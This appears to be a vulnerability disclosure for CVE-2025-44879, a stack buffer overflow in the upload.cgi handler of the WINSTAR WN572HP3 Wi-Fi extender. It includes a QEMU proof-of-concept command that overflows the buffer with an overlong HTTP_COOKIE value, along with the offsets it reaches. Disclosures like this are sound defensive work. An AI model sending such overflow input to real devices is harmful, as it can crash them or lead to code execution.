



**Affected Product**: WINSTAR_WN572HP3

**Affected Firmware Versions**:  v

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: **CVE-2025-44879**

# WINSTAR_WN572HP3 introduced

WN572HP3 is designed for WISP CPE and long distance wireless network, making it an ideal solution for small business offices and the home with outdoor networking requirements. This High power outdoor Wi-Fi range extender is specifically designed to provide an effective solution for outdoor wireless networking applications. With its centralized management platform and high degree of flexibility, it is the ideal choice for providing point-to-point, point-to-multipoint, and outdoor Wi-Fi coverage.

# **Description**:

A buffer overflow vulnerability exists in the Lighttpd web service component of the WINSTAR_WN572HP3 device, specifically within the `/etc/lighttpd/www/cgi-bin/upload.cgi` file. The vulnerability occurs when processing HTTP requests due to the insecure use of the `strcpy` function to copy untrusted data from the `HTTP_COOKIE` environment variable (retrieved via `getenv("HTTP_COOKIE")`) into a fixed-size stack buffer without proper bounds checking. An attacker can exploit this by crafting a malicious HTTP request with an excessively long Cookie value, leading to stack overflow. This may overwrite critical memory structures (e.g., return addresses), resulting in arbitrary code execution or denial of service (DoS).


# exploit：

use of the `strcpy` function to copy untrusted data from the `HTTP_COOKIE` environment variable (retrieved via `getenv("HTTP_COOKIE")`) into a fixed-size stack buffer without proper bounds checking. 




Simulations were performed using the QUME


```
sudo chroot . ./qemu-mipsel-static -g 1234 -E HTTP_COOKIE=1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111 ./etc/lighttpd/www/cgi-bin/upload.cgi
```


The requested stack space is 0x178 overflow to 0x1e9






